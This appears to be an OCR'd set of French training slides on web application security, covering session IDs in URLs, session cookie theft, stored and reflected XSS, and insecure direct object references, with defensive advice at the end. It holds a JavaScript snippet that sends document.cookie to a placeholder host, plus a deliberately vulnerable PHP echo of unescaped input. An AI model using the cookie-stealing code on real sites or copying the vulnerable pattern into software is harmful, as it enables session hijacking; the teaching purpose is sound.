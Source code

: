```html
http://exemple.com/?jsessionid=A2938298D293
```

---

Vol du cookie de session

```javascript
// Exemple de vol d'un cookie de session en JavaScript
var img = new Image();
img.src = "http://exemple.com/?jsessionid=" + document.cookie;
document.body.appendChild(img);
```

---

### Cross-Site Scripting (XSS)

Exécution de code JavaScript sans validation.

- XSS Stocké (base de données).
- XSS Réfléchi (URL / Lien).

---

```html
Votre Nom : <input type="text" name="nom" value="" />
```

```js
echo "Bonjour " . $_POST['nom'];
```

---

### A4 - Références directes non sécurisées à un objet

```
http://exemple.com/liste?mode=client
```

Si je change client par … admin ?

---

```sql
SELECT * FROM client where mode=?
```

```php
$stmt->bindParam(1, $mode);
```

---

- Toujours valider les entrées utilisateurs.
- Toujours vérifier les droits de l'utilisateur.

```php
if ($_SESSION['mode'] == 'client') {
    // On peut charger la ressource
} else if ($_SESSION['mode'] == 'admin') {
    // On peut charger la ressource
} else {
    // On ne peut pas charger la ressource
}
```

---